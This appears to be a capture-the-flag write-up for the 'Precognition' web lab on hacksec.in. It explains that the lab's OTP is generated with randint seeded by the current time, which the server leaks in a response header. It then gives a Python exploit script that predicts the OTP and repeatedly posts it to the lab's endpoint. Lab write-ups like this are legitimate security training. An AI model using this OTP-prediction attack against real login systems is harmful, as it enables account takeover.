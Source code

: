 ```yaml
---
title: Precognition writeup
date: 2021-10-11
description: "Hello guys script is here and today we will learn in this post how we can own precognition web-lab"
image: images/predictthefuture/predicthefuture.png
alt: precognition
---
```


## Web-Lab information

### PRECOGNITION

|              |                                                      |
| ------------ | ---------------------------------------------------- |
| Point:       | 20+                                                  |
| Level:       | EASY                                                 |
| Target:      | http://machine9.hacksec.in                           |
| First ownby: | [n00bmast3r](https://www.app.hacksec.in/profile/158) |
| Created by:  | [SCRIPT1337X](https://www.app.hacksec.in/profile/1)  |

## let's start

First of all, let's see what we have to work on by opening the URL.
![HomePage](/images/predictthefuture/1.png)

## Reading source code

Source code is available here : https://machine9.hacksec.in/download/source_code
![Source_code](/images/predictthefuture/2.png)

## Vulnerable function

Send OTP function generates the OTP, and it's vulnerable because it's using the current time as a seed to generate OTP using randint.
![Vulnerable_function](/images/predictthefuture/3.png)

## Finding current server time

If we read the custom_response function, we can see we can get the current server time in the server_time response header
![custom_response](/images/predictthefuture/4.png)
![server_time](/images/predictthefuture/5.png)

## Write exploit
So we have everything, so lets create our exploit now
```bash
from flask import json
import requests
from threading import Thread
from random import seed
from random import randint
import time
import json

data = requests.get("https://machine9.hacksec.in/server/info").headers
server_time = float(data["server_time"])
#print(server_time)
secx = round(time.time() * 1000) / 1000
print(int(secx))
print(int(secx) + 5)
seed(int(secx) + 5)
otp = [9999, 0000]
generated_otp = randint(otp[1], otp[0])
print(generated_otp)
count = 0
while True:
    count += 1
    print("Try for " + str(count))
    data = requests.post("https://machine9.hacksec.in/send/otp", json={"otp": generated_otp}).content
    data = json.loads(data)
    if data["data"] != "Wrong OTP":
        print("[+] OTP sent successfully")
        print(data)
        break
```


## Read hash.txt

Done
![hash.txt](/images/predictthefuture/6.png)

